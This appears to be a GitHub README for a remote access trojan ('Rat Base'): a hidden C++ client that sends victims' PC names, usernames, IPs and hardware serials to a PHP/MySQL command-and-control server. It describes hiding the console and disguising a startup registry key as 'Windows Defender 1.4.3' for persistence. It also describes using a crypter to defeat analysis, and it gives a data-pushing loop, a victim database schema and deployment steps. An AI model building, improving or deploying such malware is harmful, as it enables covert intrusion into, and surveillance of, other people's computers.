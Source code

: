 # Rat Base
A basic base for a Remote. Access. Tool. written in native C++, PHP, and MySQL.

# Usage
This RAT is not like most others it sends a GET request with all its data split by `|` to a API.
This RAT is primarily made for recon as it doesn't provide any post-exploitation modules but that might be added in the feature as well as a frontend.
You should launch this server on a nginx or apache2 server with PHP installed.
Then compile the client with updated CNC IPv4, and Port.

# How does it work?
In the first line of the client it free's console so it's hidden (obviously)
then it creates registry values in `SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run` called `Windows Defender 1.4.3` to infect it to startup.
using RCrypter to make it very hard to debug and analyze on runtime-
It then creates a loop that is going to run forever (well not forever since it's uncertain but you know what I mean) where it then gets PC info and pushes it to db
```cpp
PCInfo* LocalPC;

while (true) {
	LocalPC = new PCInfo(); // Makes new instance of the computers info
	
	LocalPC->PushData(); // Pushes PC data to web-server

	Sleep(1000); // Waits 1 second
}
```

# Database Structure
The `rats` table has a few values for frontend like serialnumbers, `last_active`, ip, and pc username.
This is the `rats` SQL structure
```sql
CREATE TABLE `rat` (
  `id` int(11) NOT NULL,
  `pcname` varchar(50) NOT NULL,
  `username` varchar(50) NOT NULL,
  `ip` varchar(20) NOT NULL,
  `disk_serial` varchar(255) NOT NULL,
  `baseboard_serial` varchar(255) NOT NULL,
  `ram_serial` varchar(255) NOT NULL,
  `cpu` varchar(255) NOT NULL,
  `last_active` datetime DEFAULT current_timestamp(),
  `created_at` datetime DEFAULT current_timestamp()
);
```

# API
The API is quite simple it checks if the IP is already in any of the rows and if it is, API updates the row, if its not API inserts data into DB.


# Why?
This project was for me to see if i could make one with clean and code.

# Credits
In the API I used a function called get_ip() which was taken from @timothyikennedy
In client I used a function called DoGET() which was taken from a stackoverflow post (I don't remember or have link)
@Akex64: Creating the whole client except some functions and API
@skadro-official: skCrypter / RCrypter.h
 



